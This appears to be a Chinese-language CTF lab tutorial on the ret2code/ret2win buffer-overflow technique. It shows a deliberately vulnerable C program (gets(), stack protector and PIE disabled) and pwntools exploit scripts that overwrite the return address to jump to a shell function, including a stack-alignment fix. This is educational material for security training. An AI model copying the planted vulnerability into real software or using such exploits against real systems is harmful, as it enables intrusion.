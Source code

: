 ```yaml
---
title: "Day7－ret2code (ret2func)"
date: 2024-09-21
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經過了前一天的 lab，相信大家對於 buffer overflow 的原理已經有了更多的理解。既然我們能覆蓋判斷式中的值，那麼是否也能覆蓋 return address，讓程式跳到其他位置呢？這正是我們今天要介紹的攻擊技術：ret2code，又稱為 ret2func 或 ret2win。

## 介紹

回顧之前的 stack 內容，當使用 `gets` 讀取 `buf` 字串時，可以持續覆蓋記憶體，甚至可能覆蓋到 `rbp` 和 `return address`

![image](/images/iron2024/day7_image1.png)

例如，如果我們想跳到名為 `shell` 或 `win` 的函數，可以嘗試將 stack 覆蓋成如圖所示的狀態。當程式執行到 return address 時，它就會跳轉到我們覆蓋的位置。

![image](/images/iron2024/day7_image2.png)

雖然在現實情況下，程式中不太可能直接有開啟 shell 的 function，但在一些初學者的 CTF 題目中，這類控制程式執行流程（control flow）的題目仍然存在。在進入實作之前，我們要了解這種攻擊的前提條件是：需要關閉 PIE 保護，因為我們必須知道確切要跳轉的 function 位置。

## Lab

查看以下程式原始碼：

```c
#include<stdio.h>

void shell(){
    system("/bin/sh");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char b[10];
    puts("Send me a message: ");
    gets(b);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2code.c -o ./ret2code/share/ret2code -fno-stack-protector -no-pie
```

大家可以自行練習這道題目，或是繼續閱讀以下解題步驟。

## writeup

首先，我們注意到程式中存在一個 `shell()` 函數，這個函數會直接開啟一個 shell。另外，程式關閉了 Canary 和 PIE 保護，並使用了危險的 `gets` 函數來讀取輸入，因此我們可以嘗試使用 ret2code 技術跳轉到某個位置。在實作 ret2code 之前，我們需要解決以下兩個問題：

- 找出覆蓋到 return address 前所需的字元數。
- 確定 `shell()` function 的地址。

首先，找到覆蓋到 return address 前所需的字元數。我們可以使用 `objdump` 來 disassemble 程式，觀察指令 `lea rax,[rbp-0xa]`，這表示輸入的起始位置是 `[rbp-0xa]`。與前面不同的是，return address 前還有 8 個 bytes 的 `rbp`，所以需要填充的字元數是 `0xa + 0x8 = 0x12`，即 18 個字元。

![image](/images/iron2024/day7_image3.png)

另一種方法是使用 `gdb` 來驗證。我們先使用 `gdb ./ret2code` 啟動程式，然後在 `main` function 處設置中斷點，接著 `r` 執行程式，並 `ni` 逐步執行至輸入位置。此時，我們可以輸入有規律的字元，觀察覆蓋情況。例如輸入 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

![image](/images/iron2024/day7_image4.png)

繼續執行至 return address 處，可以看到 return address 已被覆蓋為 `0x4747464646464545`，即 `EEFFFFGG`。因此，可以確定需要填充的字元數是 `AAAABBBBCCCCDDDDEE`，共 18 個字元。

![image](/images/iron2024/day7_image5.png)

`shell()` 的 address 可以使用 `objdump` 或 `gdb` 來查找。使用 `objdump`，我們可以看到地址為 `0x401156`。

![image](/images/iron2024/day7_image6.png)

使用 `gdb` 的 `info func` 命令，也可以看到 `shell()` function 位於 `0x401156`。

![image](/images/iron2024/day7_image7.png)

現在我們可以開始編寫 exploit。我們將測試 local 端程式，輸入 `0xa + 8` 個字元，並在後面加上要修改的 return address：

```python
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

不過執行後會發生 SIGSEGV，此時可以使用 `gdb` 來追蹤問題。

![image](/images/iron2024/day7_image8.png)

將 exploit 加上 `gdb.attach()` 並使用 `tmux` 開啟另一個視窗。`gdb.attach()` 可以指定啟動時要執行的 gdb 指令，例如設置中斷點。

```python
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

gdb.attach(r,'b main')
context.terminal = ['tmux', 'splitw', '-h']

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

在 `tmux` 中執行 exploit，並讓執行位置回到 `main` function。

![image](/images/iron2024/day7_image9.png)

此時發現程式確實跳到 `shell()`，但遇到問題：`movaps xmmword ptr [rsp + 0x50], xmm0`，提示 `not aligned to 16 bytes`。這個問題可以參考這篇[文章](https://hack543.com/16-bytes-stack-alignment-movaps-issue/)，簡單來說，某些 libc 版本要求 `rsp` 的值必須是 16 的倍數。我們可以嘗試跳轉到前一點的位置。

![image](/images/iron2024/day7_image10.png)

例如，跳轉到 `0x401157` 或其他位置進行測試。

![image](/images/iron2024/day7_image11.png)

將 exploit 改為跳轉到 `0x401157`，並移除剛剛的 `gdb` 部分。

```python
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

成功取得 shell！

![image](/images/iron2024/day7_image12.png)

接下來將題目架設起來，並連接到遠端。

完整 exploit：

```python
from pwn import *

# r = process('../ret2code/share/ret2code')
r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day7_image13.png)
